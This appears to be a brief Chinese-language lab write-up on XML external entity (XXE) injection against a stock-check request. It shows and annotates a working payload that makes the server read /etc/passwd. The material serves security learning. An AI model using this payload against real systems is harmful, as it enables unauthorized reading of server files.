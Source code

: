 检查库存处抓包，发现xml格式数据

![](images/C1039FB3FFEF4947A5729987E2BA0DD6clipboard.png)



尝试xxe注入

poc:

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```



poc解释：

```javascript
<?xml version="1.0" encoding="UTF-8"?>
//自定义外部实体xxe
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
//引用&xxe;外部实体
//服务器请求了定义的&xxe;外部实体
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

